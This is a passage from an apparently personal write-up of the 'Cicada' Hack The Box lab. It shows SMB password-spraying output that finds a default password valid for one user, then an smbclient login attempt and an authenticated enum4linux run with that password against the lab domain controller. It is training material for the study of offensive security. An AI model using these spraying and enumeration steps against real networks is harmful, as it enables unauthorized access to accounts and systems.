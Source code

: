 ```
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Allowed:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Denied:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [-] CICADA\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\DnsAdmins:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\DnsUpdateProxy:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Groups:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [-] CICADA\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         cicada.htb      445    CICADA-DC        [-] CICADA\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [-] CICADA\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         cicada.htb      445    CICADA-DC        [+] CICADA\Dev:Cicada$M6Corpb*@Lp#nZp!8 
SMB         cicada.htb      445    CICADA-DC        [-] CICADA\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
```
We can see that a lot of registers mark as successful, but that's beacause they are groups, maybe I should've only put the users. Anyway, we can see that the user CICADA\michael.wrightson has the default password.

Let's try to login as this user, and see what we get, it's good practice, but first let's try if Michael has access to the dev share:
```
┌──(oriol㉿zero)-[~]
└─$ smbclient -U "cicada.htb\michael.wrightson" \\\\10.10.11.35\\DEV       

Password for [CICADA.HTB\michael.wrightson]:
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_ACCESS_DENIED listing \*
smb: \> 
```

Seems not, well, let's try if we can get some information from the other users now that we have Michael's user. First, let's try with **enum4linux**, I wil use the `-a` flag so that it retrieves all the information aviable.
```
└─$ enum4linux -a -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' cicada.htb
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Nov  9 11:06:33 2024

 =========================================( Target Information )=========================================

Target ........... cicada.htb
RID Range ........ 500-550,1000-1050
Username ......... 'michael.wrightson'
Password ......... 'Cicada$M6Corpb*@Lp#nZp!8'
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =============================( Enumerating Workgroup/Domain on cicada.htb )=============================


[E] Can't find workgroup/domain



```